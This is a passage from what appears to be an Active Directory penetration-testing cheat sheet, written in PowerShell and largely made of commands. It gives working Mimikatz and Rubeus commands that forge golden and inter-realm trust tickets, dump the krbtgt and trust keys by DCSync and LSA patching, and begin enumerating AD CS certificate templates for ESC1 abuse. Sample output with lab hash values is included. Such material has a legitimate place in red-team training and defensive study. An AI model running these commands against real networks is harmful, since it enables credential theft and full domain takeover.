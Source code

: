 ```powershell
# With the krbtgt hash for child domain, create a inter realm TGT and inject in the process
C:> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<child_domain> /sid:<child_Domain_sid> 
                               /sids:<target_domain_sid>-519 /krbtgt:<child_domain_krbtgt_hash> /ptt" "exit"'

# Extract secrets from parent domain
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<parent_domain>\krbtgt /domain:<parent_Domain_fqdn>" "exit"'
```
#### Across Forest Using Trust Tickets
- Only access to explicit resources. In this case to shared folder using CIFS
```powershell
# Get Domain Trust Key in any of following ways. Need DA rights on DC.
C:> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName <dc-host>
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

[[BLAH]]
Domain: EUROCORP.LOCAL (ecorp / S-1-5-21-1652071801-1423090587-98612180)    <-- Need This
 [ In ] DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL 
[[BLAH BLAH]]
     * aes256_hmac f28a97c2037127a89ddcc2f2562232e9395c90e418914d0b4534870bb6726eee 
     * aes128_hmac 378202beaecc67b02d855f77d5d3ba82 
     * rc4_hmac_nt 7a9c598fa3232fa3d59f379c917d56ba                          <-- Need This
[[BLAH BLAH]]

# Create Inter Forest TGT in attacker machine. Save to file
C:> C:> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain_fqdn> /sid:<domain_sid> 
                              /rc4:<rc4_hmac_nt> /service:krbtgt /target:<target_domain_fqdn> /ticket:C:\trust_tkt.kirbi"'

# Create a TGS using the created ticket
C:> Rubeus.exe asktgs /ticket:trust_tkt.kirbi /service:cifs/eurocorp-dc.moneycorp.local /dc:<target_domain_dc> /ptt
```
### AD Certificate Services
---
Make sure the msPKI-Certificates-Name-Flag value is set to "ENROLLEE_SUPPLIES_SUBJECT" and that the Enrollment Rights allow Domain/Authenticated Users. Additionally, check that the pkiextendedkeyusage parameter contains the "Client Authentication" value as well as that the "Authorized Signatures Required" parameter is set to 0.

This exploit only works because these settings enable server/client authentication, meaning an attacker can specify the UPN of a Domain Admin ("DA") and use the captured certificate with Rubeus to forge authentication.

Note: If a Domain Admin is in a Protected Users group, the exploit may not work as intended. Check before choosing a DA to target.
```powershell
# Enumerate AD CS in the target forest
C:> Certify.exe cas

# Enumerate Templatesa
C:> Certify.exe find
# Interesting Fields on Result
#      CA Name: Usefull for ESC1
#      TemplateName: The name itself :-)
#      Permissions
#          Enrollment Rights: Grups or User with rights. This ones canrequest certificates for any
#          Owner, WriteOwner Principals, etc...
#      msPKI-Certificates-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT

```